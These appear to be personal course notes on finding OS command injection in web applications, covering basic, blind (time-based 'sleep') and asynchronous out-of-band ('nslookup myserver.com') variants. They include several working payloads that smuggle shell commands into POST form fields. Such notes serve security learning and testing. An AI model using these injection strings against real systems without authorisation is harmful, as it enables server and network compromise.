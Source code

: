 # Section 8: OS Command Injection

## Discovering a Basic Command Injection Vulnerability

**Execute system commands on the target web server**
- Compromise the application & server
- Compromise the network and other resources

  e.g. in a POST request payload, in BURP suite:

  ```
  productId=3;uname&storeId=2
  ```

  ```
  productId=3&storeId=2;uname
  ```

returns:
```
73
Linux
```

  added semicolon because I can run this in the system:

  ```
  uname;pwd
  ```

---

## Discovering Blind Comand Injection Vulnerability

It's Blind because, there is no ouput of the command displayed. 

The **sleep** function can be used to verify if it's working

e.g. In a POST request paylaod

```
csrf=32059523058230&name=test^email=test%40test.com;sleep+5;&subject=test&message=adfsdf
```

also can replace semicolons with double bars (OR)

```
csrf=32059523058230&name=test^email=test%40test.com||sleep+5||&subject=test&message=adfsdf
```

---

## Discovering Asynchronous Blind Command Injection Vulnerabilities

For example when an OS command is executed in another thread and there is not way to check it in the response

Solution: Use a command such as the `ping` or `nslookup` to cause the target web application to send a request to another server
that you control. Then check the logs of the server you control for the request.

```
csrf=32059523058230&name=test^email=test%40test.com||nslookup+myserver.com||&subject=test&message=adfsdf
```

---




